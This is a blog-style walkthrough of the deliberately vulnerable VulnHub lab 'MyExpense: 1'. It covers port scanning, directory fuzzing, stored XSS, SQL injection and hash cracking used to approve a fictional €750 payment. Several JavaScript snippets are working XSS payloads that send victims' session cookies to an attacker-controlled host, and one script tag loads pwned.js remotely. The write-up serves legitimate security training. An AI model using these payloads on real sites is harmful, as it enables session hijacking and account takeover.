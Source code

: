 ```yaml
---
layout: single
title: "VulnHub - MyExpense: 1"
excerpt: MyExpense is a deliberately vulnerable web application that allows you to train in detecting and exploiting different web vulnerabilities. Unlike a more traditional "challenge" application (which allows you to train on a single specific vulnerability), MyExpense contains a set of vulnerabilities you need to exploit to achieve the whole scenario.
date: 2025-10-08
classes: wide
header:
  teaser: /assets/images/vh.png
  teaser_home_page: true
categories:
  - vulnhub
tags:
  - xss
  - sqli
  - xsrf
---
```

# Introduction
-------------
This writeup documents the penetration testing of the [**MyExpense: 1**](https://www.vulnhub.com/entry/myexpense-1,405/) machine. This machine has been downloaded from the [**VulnHub**](https://vulnhub.com) platform.

You are Samuel Lamotte and you have been fired from **Futura Business Informatique**. The company owes you €750, but you were fired. Right now, you are in your car in front of the company. Furthermore, you are on the company's internal network with your laptop. Your login credentials before being fired were **samuel:fzghn4lw**. 

Your mission will be to compromise the company's security in order to authorize the payment they owe you.

# Recon
------------------
## Enumeration of exposed services
----------------
First, we need to discover the IP of the MyExpense machine.

![](/assets/images/vh-myexpense/arp-scan.png)

Once we identify the victim machine it would be optimal to use **settarget** to set the target IP in the Polybar.

Usually, if the machine returns a TTL of 64 it's a Linux machine. If it returns a TTL of 128 it's a Windows machine. We can also use the util [**whichSystem**](https://github.com/Akronox/WichSystem.py). 

![](/assets/images/vh-myexpense/whichSystem.png)

Now we will perform a port scan on the machine. To work in an organized way we will use the function **mkt**.

![](/assets/images/vh-myexpense/mkt.png)

![](/assets/images/vh-myexpense/nmap_scan.png)

![](/assets/images/vh-myexpense/extractPorts.png)

![](/assets/images/vh-myexpense/targeted1.png)

![](/assets/images/vh-myexpense/targeted2.png)

We can see some ports open. The most interesting port is the 80 port. Once we have scanned all ports of the machine it's good to know the Debian codename behind the system, we need to Google the Apache version reported by nmap followed by '**launchpad**'.

![](/assets/images/vh-myexpense/launchpad.png)

We are facing a **Debian Stretch**.

## Web service enumeration
------------
Once the OS and exposed services have been enumerated it's time to enumerate the web server running on the port 80.

![](/assets/images/vh-myexpense/whatweb.png)

![](/assets/images/vh-myexpense/web.png)

![](/assets/images/vh-myexpense/wappalyzer.png)

As we know, we are facing a Debian Stretch machine running in the 80 port a web page with Apache and PHP.

## Fuzzing and file enumeration
-------------
We will apply brute force to the website to list directories and files. Once the attack finished, these were the results obtained:

![](/assets/images/vh-myexpense/gobuster1.png)

It detected several directories, among them it appears the admin panel at /admin. We will enumerate that directory, since accessing it returns **Error 403 - Forbidden**.

![](/assets/images/vh-myexpense/gobuster2.png)

We found a file 'admin.php' which we will access. We have an interesting table. We discover that our user is not samuel, but **slamotte**, and our account is currently disabled.

![](/assets/images/vh-myexpense/admin.php.png)


# Exploitation
-----------
## Identification and exploitation of vulnerabilities
------------
We will attempt to register a new account. After filling in the fields we notice the button is disabled; as simple as accessing the source code and removing the 'disabled' attribute from the button.

![](/assets/images/vh-myexpense/register.png)

If we look at the admin.php file we will see that the new account has been created but is disabled. So we will try to inject JavaScript when creating another account by placing a simple alert in 'Firstname' and another in 'Lastname' to see if it is vulnerable to XSS. If we access admin/admin.php it is interpreted correctly.

![](/assets/images/vh-myexpense/alert.png)

We will launch the following payload when creating a user:

![](/assets/images/vh-myexpense/pwned.js.png)

If we set up an HTTP server on port 80 with python3, we will notice that there is a user loading admin.php from time to time. We will load a payload in pwned.js to be executed by the victim and then, steal their session cookie.

![](/assets/images/vh-myexpense/stolen_cookie.png)

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.139/?cookie=' + document.cookie);
  request.send();
```

Once we obtain the user's session cookie we will inject it into our browser. It seems the user in question is an administrator, since when injecting it an error appears saying that an administrator user cannot be connected in two sessions.

Therefore, we will take advantage of this administrator user so that they perform the request I was going to make, which was to activate my user account.

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.126/admin/admin.php?id=11&status=active');
  request.send();
```

Once we access the site as slamotte, we must submit the expense report so that someone approves it.

![](/assets/images/vh-myexpense/750_sending.png)

In the information about my account we will see that I have a manager called Manon Riviere whom we can look up in admin.php. Also, we see there are several '**financial approvers**'. The most logical approach will be to trigger an XSS in the chat to steal cookies and, with luck, one will belong to a '**financial approver**'.

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.139:4646/?cookie=' + document.cookie);
  request.send();
```

We will listen on port 4646 and we will inject a message that contains:

```js
<script src="http://192.168.0.131:4646/pwned.js"></script>
```

![](/assets/images/vh-myexpense/user_cookies.png)

Once we receive requests, we will check them one by one until we first find Manon Riviere's (the account from which we will accept the payment). After that, we will go for Paul Baudouin who is my manager and also a financial approver and we will hijack his session.

![](/assets/images/vh-myexpense/manon_riviere_accepts.png)

The **Rennes** panel is vulnerable to **SQLI**. We will follow the following exploitation:

![](/assets/images/vh-myexpense/sqli1.png)

![](/assets/images/vh-myexpense/sqli2.png)

![](/assets/images/vh-myexpense/sqli3.png)

![](/assets/images/vh-myexpense/sqli4.png)

Finally, we obtain a string of users and passwords. We will format it with nvim to make it more readable.

![](/assets/images/vh-myexpense/hashes.png)

## Final exploitation
-----------------
To finish this intrusion we have to crack the hash of our target pbaudouin. We will do it online: [**https://hashes.com**](https://hashes.com)

![](/assets/images/vh-myexpense/cracked_hash.png)

To finish, we will log in as pbaudouin and send ourselves the €750.

![](/assets/images/vh-myexpense/expense_reports.png)

To obtain the flag we must log in as slamotte.

![](/assets/images/vh-myexpense/flag.png)
